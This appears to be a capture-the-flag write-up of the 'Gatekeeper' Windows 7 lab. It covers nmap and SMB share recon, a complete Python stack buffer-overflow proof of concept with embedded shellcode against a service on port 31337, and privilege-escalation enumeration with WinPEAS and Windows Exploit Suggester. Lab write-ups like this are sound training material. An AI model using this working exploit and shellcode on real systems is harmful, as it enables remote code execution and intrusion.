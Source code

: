 # Gatekeeper

## Recon

There not much for an introduction on this one. The description mentions passing through the gatekeeper and there's fire on the other side.

### Scanning
#### NMAP
```bash
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 125 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
31337/tcp open  Elite?       syn-ack ttl 125
| fingerprint-strings: 
|   GetRequest: 
|     Hello GET / HTTP/1.0
|_    Hello
49152/tcp open  unknown      syn-ack ttl 125
49153/tcp open  unknown      syn-ack ttl 125
49154/tcp open  unknown      syn-ack ttl 125
49155/tcp open  unknown      syn-ack ttl 125
49161/tcp open  unknown      syn-ack ttl 125
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.92%I=9%D=2/11%Time=62072C3C%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,24,"Hello\x20GET\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n");
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (95%), Microsoft Windows 7 SP1 (95%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (94%)
```

#### SMBmap
```bash
[+] Guest session       IP: 10.10.79.126:139    Name: 10.10.79.126
        Disk                                                    Permissions      Comment
        ----                                                    -----------      -------
        ADMIN$                                                  NO ACCESSRemote Admin
        C$                                                      NO ACCESSDefault share
        IPC$                                                    NO ACCESSRemote IPC
        Users                                                   READ ONLY
        .\Users\*
        dw--w--w--                0 Thu May 14 20:57:08 2020    .
        dw--w--w--                0 Thu May 14 20:57:08 2020    ..
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Default
        fr--r--r--              174 Tue Apr 21 22:18:13 2020    desktop.ini
        dr--r--r--                0 Thu May 14 20:58:07 2020    Share
        .\Users\Default\*
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    .
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    AppData
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Desktop
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Documents
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Downloads
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Favorites
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Links
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Music
        fr--r--r--           262144 Tue Apr 21 22:18:13 2020    NTUSER.DAT
        fr--r--r--             1024 Tue Apr 21 22:18:13 2020    NTUSER.DAT.LOG
        fr--r--r--           189440 Tue Apr 21 22:18:13 2020    NTUSER.DAT.LOG1
        fr--r--r--                0 Tue Apr 21 22:18:13 2020    NTUSER.DAT.LOG2
        fr--r--r--            65536 Tue Apr 21 22:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
        fr--r--r--           524288 Tue Apr 21 22:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
        fr--r--r--           524288 Tue Apr 21 22:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Pictures
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Saved Games
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Videos
        .\Users\Default\AppData\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Local
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Roaming
        .\Users\Default\AppData\Local\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Microsoft
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Temp
        .\Users\Default\AppData\Local\Microsoft\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Windows
        .\Users\Default\AppData\Local\Microsoft\Windows\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    GameExplorer
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    History
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Temporary Internet Files
        .\Users\Default\AppData\Roaming\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Media Center Programs
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Microsoft
        .\Users\Default\AppData\Roaming\Microsoft\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Internet Explorer
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Windows
        .\Users\Default\AppData\Roaming\Microsoft\Internet Explorer\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Quick Launch
        .\Users\Default\AppData\Roaming\Microsoft\Windows\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Cookies
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Network Shortcuts
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Printer Shortcuts
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Recent
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    SendTo
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Start Menu
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Templates
        .\Users\Share\*
        dr--r--r--                0 Thu May 14 20:58:07 2020    .
        dr--r--r--                0 Thu May 14 20:58:07 2020    ..
        fr--r--r--            13312 Thu May 14 20:58:07 2020    gatekeeper.exe
```
		
It looks like we found the gatekeeper. Guess I'll get to use the Windows 11 dev box again.

## Exploit development

I moved the file over to my dev box and fired it up in the debugger.
Exploit development went well. No suprises and the script made everything easy.

Here's the completed POC

```python3
#!/usr/bin/env python3

import socket

ip = "192.168.1.104"
port = 31337

prefix = " "
offset = 145
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = "\xba\x43\xa3\x7c\x5b\xdb\xd3\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x52\x31\x56\x12\x83\xc6\x04\x03\x15\xad\x9e\xae\x65\x59\xdc\x51\x95\x9a\x81\xd8\x70\xab\x81\xbf\xf1\x9c\x31\xcb\x57\x11\xb9\x99\x43\xa2\xcf\x35\x64\x03\x65\x60\x4b\x94\xd6\x50\xca\x16\x25\x85\x2c\x26\xe6\xd8\x2d\x6f\x1b\x10\x7f\x38\x57\x87\x6f\x4d\x2d\x14\x04\x1d\xa3\x1c\xf9\xd6\xc2\x0d\xac\x6d\x9d\x8d\x4f\xa1\x95\x87\x57\xa6\x90\x5e\xec\x1c\x6e\x61\x24\x6d\x8f\xce\x09\x41\x62\x0e\x4e\x66\x9d\x65\xa6\x94\x20\x7e\x7d\xe6\xfe\x0b\x65\x40\x74\xab\x41\x70\x59\x2a\x02\x7e\x16\x38\x4c\x63\xa9\xed\xe7\x9f\x22\x10\x27\x16\x70\x37\xe3\x72\x22\x56\xb2\xde\x85\x67\xa4\x80\x7a\xc2\xaf\x2d\x6e\x7f\xf2\x39\x43\xb2\x0c\xba\xcb\xc5\x7f\x88\x54\x7e\x17\xa0\x1d\x58\xe0\xc7\x37\x1c\x7e\x36\xb8\x5d\x57\xfd\xec\x0d\xcf\xd4\x8c\xc5\x0f\xd8\x58\x49\x5f\x76\x33\x2a\x0f\x36\xe3\xc2\x45\xb9\xdc\xf3\x66\x13\x75\x99\x9d\xf4\xba\xf6\x9c\x74\x53\x05\x9e\x65\xff\x80\x78\xef\xef\xc4\xd3\x98\x96\x4c\xaf\x39\x56\x5b\xca\x7a\xdc\x68\x2b\x34\x15\x04\x3f\xa1\xd5\x53\x1d\x64\xe9\x49\x09\xea\x78\x16\xc9\x65\x61\x81\x9e\x22\x57\xd8\x4a\xdf\xce\x72\x68\x22\x96\xbd\x28\xf9\x6b\x43\xb1\x8c\xd0\x67\xa1\x48\xd8\x23\x95\x04\x8f\xfd\x43\xe3\x79\x4c\x3d\xbd\xd6\x06\xa9\x38\x15\x99\xaf\x44\x70\x6f\x4f\xf4\x2d\x36\x70\x39\xba\xbe\x09\x27\x5a\x40\xc0\xe3\x7a\xa3\xc0\x19\x13\x7a\x81\xa3\x7e\x7d\x7c\xe7\x86\xfe\x74\x98\x7c\x1e\xfd\x9d\x39\x98\xee\xef\x52\x4d\x10\x43\x52\x44;"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## Exploit

I created a new payload and adjusted the POC to match the actual target and it worked! I got a shell as the user `natbat`. No special privileges. This is a pretty old version of windows, I could probably find a privesc vulnerability relatively easy.

## Privilege Escalation
### Windows Exploit Suggester

I exfiltrated a copy of `systeminfo` and passed it to `windows-exploit-suggester.py`

Then I used some grep magic to search for privesc.

```bash
cat exploitSuggester | grep Priv | grep -E "^MS..-..."
```


>MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important

>MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important

>MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important

>MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important

>MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important

>MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important


### WinPEAS

I used `WinPEAS.bat` to enumerate from the inside.

> I keep seeing references to firefox on the target. 

> WinPEAS also didn't see patches for many vulnerabilities on this machine.

> The smb `Users` share is at `C:\Users\`

> Hostname: Gatekeeper

>The Firewall is up and running a Standard profile.

> Allowed programs configuration for Standard profile:                               
Mode     Traffic direction    Name / Program                                             
Enable   Inbound              dostackbufferoverflowgood.exe / C:\users\mayor\desktop\dostackbufferoverflowgood.exe

There seems to be some file `dostackbufferoverflowgood.exe`. I did see one internal port running...

Found 2 ports that are open internally only:

>   UDP    127.0.0.1:1900         *:*                                    2200
  UDP    127.0.0.1:57514        *:*                                    2200


